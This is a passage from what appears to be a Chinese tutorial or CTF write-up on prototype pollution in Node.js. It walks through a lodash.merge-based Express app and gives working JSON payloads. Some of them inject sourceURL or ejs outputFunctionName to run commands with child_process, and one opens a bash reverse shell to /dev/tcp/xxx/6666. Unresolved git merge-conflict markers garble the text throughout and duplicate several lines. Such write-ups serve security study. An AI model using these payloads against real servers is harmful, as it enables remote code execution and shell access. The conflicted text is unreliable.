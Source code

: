 ```plain
    if (req.method == 'POST') {
        data = lodash.merge(data, req.body)
        req.session.data = data
    }

    res.render('index', {
        language: data.language, 
        category: data.category
    })
})

app.listen(3000, () => console.log(`Example app listening on port 3000!`))
```

还是先找造成漏洞产生的函数 =>lodash.merge

<<<<<<< HEAD
这里很简单：用 `lodash.merge` 方法将用户提交的信息合并到 session 里面去，多次提交，session 里最终保存用户提交的所有信息。
=======
这里很简单：用 `lodash.merge` 方法将用户提交的信息合并到 session 里面去，多次提交，session 里最终保存用户提交的所有信息。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

主要是找到污染点在哪？上文说过一般选择污染 sourceURL

Payload：

<<<<<<< HEAD
```plain
{"__proto__":{"sourceURL":"\u000areturn e =>{return global.process.mainModule.constructor._load('child_process').execSync('id')}"}}
#\u000a Unicode 编码表示换行
=======
```bash
{"__proto__":{"sourceURL":"\u000areturn e =>{return global.process.mainModule.constructor._load('child_process').execSync('id')}"}}
#\u000a Unicode 编码表示换行
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
```

### 配合 ejs 模板引擎实现 RCE

几个 exp：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
命令执行
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').execSync('calc');var __tmp2"}}

{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').exec('calc');var __tmp2"}}
<<<<<<< HEAD
反弹shell
=======
反弹 shell
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/6666 0>&1\"');var __tmp2"}}
```
